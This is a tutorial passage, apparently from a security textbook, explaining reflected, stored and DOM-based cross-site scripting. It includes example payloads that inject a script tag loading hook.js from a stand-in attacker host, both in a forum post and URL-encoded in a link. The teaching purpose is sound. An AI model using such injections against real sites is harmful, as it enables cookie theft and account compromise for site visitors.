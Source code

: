 # CROSS-SITE SCRIPTING

#### CROSS-SITE SCRIPTING

Web applications depend on scripting, and most websites these days are web applications rather than static web pages. If the user attempts to disable scripting, very few sites will be left available. A **cross-site scripting (XSS)** attack exploits the fact that the browser is likely to trust scripts that appear to come from a site the user has chosen to visit. XSS inserts a malicious script that appears to be part of the trusted site. A nonpersistent type of XSS attack would proceed as follows:

  
2.  The attacker identifies an input validation vulnerability in the trusted site.
  
4.  The attacker crafts a URL to perform a code injection against the trusted site. This could be coded in a link from the attacker's site to the trusted site or a link in an email message.
  
6.  When the user clicks the link, the trusted site returns a page containing the malicious code injected by the attacker. As the browser is likely to be configured to allow the site to run scripts, the malicious code will execute.
  

The malicious code could be used to deface the trusted site (by adding any sort of arbitrary HTML code), steal data from the user's cookies, try to intercept information entered into a form, perform a request forgery attack, or try to install malware. The crucial point is that the malicious code runs in the client's browser with the same permission level as the trusted site.

An attack where the malicious input comes from a crafted link is a reflected or nonpersistent XSS attack. A stored/persistent XSS attack aims to insert code into a back-end database or content management system used by the trusted site. For example, the attacker may submit a post to a bulletin board with a malicious script embedded in the message. When other users view the message, the malicious script is executed. For example, with no input sanitization, a threat actor could type the following into a new post text field:

```Markdown
Check out this amazing <a href="https://trusted.foo">website</a><script src="https://badsite.foo/hook.js"></script>.
``` 

Users viewing the post will have the malicious script hook.js execute in their browser.

A third type of XSS attack exploits vulnerabilities in client-side scripts. Such scripts often use the **Document Object Model (DOM)** to modify the content and layout of a web page. For example, the "document.write" method enables a page to take some user input and modify the page accordingly. An exploit against a client-side script could work as follows:

1.  The attacker identifies an input validation vulnerability in the trusted site. For example, a message board might take the user's name from an input text box and show it in a header.
```Markdown
bash https://trusted.foo/messages?user=james
```  
4.  The attacker crafts a URL to modify the parameters of a script that the server will return, such as:
```Markdown
bash https://trusted.foo/messages#user=James%3Cscript%20src%3D%22https%3A%2F%2Fbadsite.foo%2Fhook.js%22%3E%3C%2Fscript%3E
```  
7.  The server returns a page with the legitimate DOM script embedded, but containing the parameter:
```Markdown
bash James<script src="https://badsite.foo/hook.js"></script>
```  
10.  The browser renders the page using the DOM script, adding the text "James" to the header, but also executing the hook.js script at the same time.